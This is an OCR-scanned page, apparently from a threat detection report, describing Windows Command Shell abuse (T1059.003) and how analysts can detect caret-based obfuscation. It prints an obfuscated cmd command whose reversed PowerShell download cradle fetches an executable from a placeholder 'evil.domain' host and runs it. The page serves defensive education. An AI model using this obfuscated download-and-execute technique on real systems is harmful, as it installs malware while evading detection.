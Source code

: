 17

l T1059\.003: Windows Command Shell

T 1 0 5 9 . 0 0 3 : 
W I N D O W S 
C O M M A N D S H E L L

“Adversaries may abuse the Windows 

command shell for execution. The 

Windows command shell (cmd.exe) 

is the primary command prompt 

on Windows systems. The Windows 

command prompt can be used to 

control almost any aspect of a system, 

with various permission levels required 

for different subsets of commands.”

2021 Threat Detection Report

In the Windows Command Shell, the caret (^) character is an escape character. 

When it precedes special characters, like the pipe (\|) character or file redirection 

operators (\<\>), those special characters will be treated as normal characters. 

When the caret symbol precedes non\-special characters, nothing special 

happens; it is effectively ignored. So the command above becomes:

cmd /V/C”set N1\= }}{hctac};kaerb;iB$ metI\-

ekovnI;)iB$ ,dq$(eliFdaolnwoD.cAB${yrt{)tlm$ ni 

dq$(hcaerof;’exe.’\+Kjm$\+’\\’\+cilbup:vne$\=iB$;’963’ 

\= Kjm$;)’@’(tilpS.’detcefni\=l?php.suoici/lam/

niamod.live//:ptth’\=tlm$;tneilCbeW.teN tcejbo\-

wen\=cAB$ llehsrewop\&\&for /L %R in (265;\-1;0\)do 

set ZR\=!ZR!!N1:\~%R,1!\&\&if %R\=\=0 call %ZR:\*ZR!\=%

Looking at this command carefully, we can see it sets a variable named N1 to 

a string containing a PowerShell command that is reversed. There’s a For loop 

that reverses this string and executes it. The PowerShell command creates a 

download cradle to download a file and invokes it via a call to Invoke\-Item.

While these obfuscated commands may evade simple, signature\-based 

detections, analytics that look for commonly used obfuscation techniques, such 

as the presence of caret characters, can easily detect them. Layered detection 

